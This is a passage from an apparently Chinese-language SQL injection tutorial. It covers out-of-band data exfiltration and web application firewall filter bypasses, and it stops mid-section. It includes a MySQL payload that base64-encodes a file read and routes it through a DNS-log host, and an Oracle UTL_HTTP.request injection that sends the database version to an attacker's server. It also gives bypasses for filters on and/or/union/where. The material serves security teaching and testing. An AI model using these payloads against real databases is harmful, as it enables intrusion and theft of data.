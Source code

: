 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select concat(to_base64(substr(load_file("xxx"),1,15)), "dnslog.com") as result<br>``` |

技巧

oracle 数据库中，存在发起 HTTP 请求的函数 UTL\_HTTP.request

`UTL_HTTP.request(url, proxy)`

它的返回类型是长度为 2000 或更短的字符串，它包含从 HTTP 请求返回到参数 URL 的 HTML 结果的前 2000 个字节

通过 SQL 注入让目标服务器执行：

`select UTL_HTTP.request('http://IP/test.php'||'?id='||(select version from v$instance)) from dual;`

在攻击人员的 test.php 上记录 id 参数传递过来的数据，并写入文件中

## [](#9-waf-%E7%BB%95%E8%BF%87)9 WAF 绕过

### [](#91-and-%E5%92%8C-or-%E7%BB%95%E8%BF%87)9.1 and 和 or 绕过

过滤代码：`preg_match('/(and|or)/i', $id)`

绕过：利用 `||` 代替 `or`，`&&` 代替 `and`

### [](#92-union-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.2 union 过滤绕过

过滤代码：`preg_match('/(and|or|union)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>\| (select user from users where user_id=1)='admin'<br>``` |

问题

怎么知道 user 表、user 列、admin 字段？

1.  表名确实可以猜解，尤其是 user 这种常用表
2.  如果猜不到，通过 `information_schema.tables` 及 `substr` 来联合判断
3.  列名和字段内容也是同理

### [](#93-where-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.3 where 过滤绕过

过滤代码：`preg_match('/(and|or|union|where)/i', $id)`

绕过：`|| (select user from users limit 1,1)='admin'`

### [](#94-limit-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.4 limit 过滤绕过

